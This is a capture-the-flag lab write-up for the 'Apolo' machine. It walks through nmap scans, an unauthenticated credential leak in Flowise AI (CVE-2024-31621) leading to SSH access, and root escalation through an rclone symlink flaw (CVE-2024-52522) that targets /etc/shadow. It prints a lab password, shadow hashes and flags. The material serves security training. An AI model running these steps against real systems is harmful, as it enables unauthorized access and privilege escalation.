





	<font size="10">Apolo</font>
		27<sup>th</sup> November 2024 / Document No D****.100.***
		Prepared By: k1ph4ru
		Machine Author: k1ph4ru
		Difficulty: <font color=green>Easy</font>
		Classification: Official	


# Enumeration
## Nmap
```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.129.231.24 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.231.24
Starting Nmap 7.93 ( https://nmap.org ) at 2024-11-27 04:54 EST
Nmap scan report for 10.129.231.24
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://apolo.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.37 seconds
```
`Nmap` reveals only two ports are open. On port `22` `SSH` is running, and on port `80` an `Nginx` web server. Since we do not have any credentials to login via `SSH,` we will start by looking at port `80`. Browsing to port `80`, we notice we are redirected to `apolo.htb` . We need to add this to `/etc/hosts/` file. Now we are able to visit `apolo.htb`.

```
echo "10.129.231.24 apolo.htb" | sudo tee -a /etc/hosts
```

Here we come across a landing page about protecting frontier cluster assets.


Looking at the sentinel page, we see a hyperlink that mentions the use of AI technology.



Clicking on the hyperlink, it redirects to the `ai.apolo.htb` domain. We need to add this domain to our `/etc/hosts` file to ensure proper resolution using the following command, which appends the domain to the IP address.

```bash 
sudo sed -i '/10\.129\.231\.24/ s/$/ ai.apolo.htb/' /etc/hosts
```

This command works by using `sed (stream editor)` to locate the line in `/etc/hosts` containing the IP `10.129.231.24` and appending `ai.apolo.htb` to the end of that line.

# Foothold

Visiting the page, we come across `Flowise AI`, which is an open-source low-code tool for developers to build customized `LLM `orchestration flows and AI agents.. 



We also see a login page, but since we do not have credentials to access it, we perform a quick Google search for vulnerabilities affecting `Flowise AI` and we come across [CVE-2024-31621](https://nvd.nist.gov/vuln/detail/CVE-2024-31621). The vulnerability that affects `Flowise` versions up to `1.6.5` allows unauthenticated users to access restricted endpoints without valid credentials. 

We also come across this [page](https://www.exploit-db.com/exploits/52001), which explains more details about the vulnerability. In order to exploit it, we first intercept a `GET` request using `Burp Suite`.




We then proceed to send this to the `Repeater` and add `/Api/v1/credentials` to the GET request.



After sending the request, we see that we receive a response with credentials for `MongoDB` and the `ID`. We can then proceed to send the `GET` request with the `ID` parameter to retrieve the `MongoDB` credentials.



From the response, we see the following credentials:

```mongo
lewis:C0mpl3xi3Ty!_W1n3
```

Attempting to log in to SSH using the credentials works.

```bash 
ssh lewis@10.129.231.24                   
The authenticity of host '10.129.231.24 (10.129.231.24)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes 
Warning: Permanently added '10.129.231.24' (ED25519) to the list of known hosts.
lewis@10.129.231.24's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-200-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed 27 Nov 2024 10:26:31 AM UTC

  System load:             0.0
  Usage of /:              34.9% of 17.55GB
  Memory usage:            82%
  Swap usage:              24%
  Processes:               234
  Users logged in:         0
  IPv4 address for ens160: 10.129.231.24
  IPv6 address for ens160: dead:beef::250:56ff:feb4:f408


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Nov 21 08:40:36 2024 from 10.10.14.88
lewis@apolo:~$ id
uid=1000(lewis) gid=1000(lewis) groups=1000(lewis)
lewis@apolo:~$ 
```

Here, we can then grab the user flag.

```bash 
lewis@apolo:~$ cat user.txt 
HTB{llm_ex9l01t_4_RC3}
lewis@apolo:~$ 
```

# Privilege Escalation

Looking at the sudo configuration `sudo -l`, we see that the user `lewis` can run `rclone` without a password as any user. `rclone` is a command-line program used to sync files and directories to and from different cloud storage providers.

```bash 
lewis@apolo:~$ sudo -l
Matching Defaults entries for lewis on apolo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lewis may run the following commands on apolo:
    (ALL : ALL) NOPASSWD: /usr/bin/rclone
```

We can then check the version using the command `rclone --version`, 

```bash 
lewis@apolo:~$ rclone --version 
rclone v1.68.1
- os/version: ubuntu 20.04 (64 bit)
- os/kernel: 5.4.0-200-generic (x86_64)
- os/type: linux
- os/arch: amd64
- go/version: go1.23.1
- go/linking: static
- go/tags: none
lewis@apolo:~$ 
```

Here we see the version is `v1.68.1`. A quick Google search leads us to this vulnerability [CVE-2024-52522](https://nvd.nist.gov/vuln/detail/CVE-2024-52522), which was fixed in `rclone` version `1.68.2`, and the currently installed version is vulnerable. The vulnerability involves insecure handling of symlinks when using the `--links` and `--metadata` flags in `rclone`. These flags allow `rclone` to follow symlinks and copy metadata, respectively. This flaw lets unprivileged users indirectly modify the ownership and permissions of files that symlinks point to, particularly when the copy operation is executed by a superuser or privileged process. For more information on this, we also find a detailed [GitHub page](https://github.com/rclone/rclone/security/advisories/GHSA-hrxh-9w67-g4cv), which explains how to replicate the issue. First, we create a folder in the `/tmp` directory to store the symlink.

```bash 
 mkdir -p /tmp/malicious_dir
```

Next, we create a symlink to the `/etc/shadow` file that stores password hashes.

```bash 
ln -s /etc/shadow /tmp/malicious_dir/shadow_symlink
```

Then, we run `rclone` to copy the directory, which will follow the symlink using the `--links` flag, and the `--metadata` flag, which ensures that metadata is copied as well. When `rclone` processes the `/tmp/malicious_dir`, it follows the symlink and attempts to copy the contents of the `/etc/shadow` file.

```bash 
lewis@apolo:~$ sudo rclone copy /tmp/malicious_dir /destination_dir --links --metadata
2024/11/27 10:46:46 NOTICE: Config file "/root/.config/rclone/rclone.conf" not found - using defaults
```

Finally, we edit the `shadow` file and remove the password hash for the root user.

```bash 
root:$6$tXGOWajYaarOSaBl$3ERntPuO48c8RpGIPf/qrfLqezppfW/t0wqRTpzjmaBLYLVWBj.TrLkgJdVKdQeh2cjoBwQ6dVU98ckLQgCCG0:20024:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
<...SNIP...>
lewis:$6$BtGmTbbtNVkg/W2N$nLwk34e22.8xnscxEV2IfL0SD1xvuwWaVlAaQBGOWk2cGA9dfUpzXhONLr5wu8mGuzRX2ZEPm1NFuPeni4K9r1:20024:0:99999:7:::
fwupd-refresh:*:20041:0:99999:7:::
```

Looking at the contents of the `shadow` file, we see that the password hash for the `root` user has been removed `root::20024:0:99999:7:::`. This means that the `root` user now has no password set and can be accessed without authentication.

```bash 
lewis@apolo:~$ cat /destination_dir/shadow_symlink 
root::20024:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
<...SNIP...>
systemd-coredump:!!:18389::::::
lxd:!:18389::::::
usbmux:*:18822:0:99999:7:::
lewis:$6$BtGmTbbtNVkg/W2N$nLwk34e22.8xnscxEV2IfL0SD1xvuwWaVlAaQBGOWk2cGA9dfUpzXhONLr5wu8mGuzRX2ZEPm1NFuPeni4K9r1:20024:0:99999:7:::
fwupd-refresh:*:20041:0:99999:7:::
lewis@apolo:~$ 
```

Now we can run `su root` to switch to the root user and grab the root flag.

```bash 
lewis@apolo:~$ su root
root@apolo:/home/lewis# cat /root/root.txt
HTB{cl0n3_rc3_f1l3}
root@apolo:/home/lewis# 
```

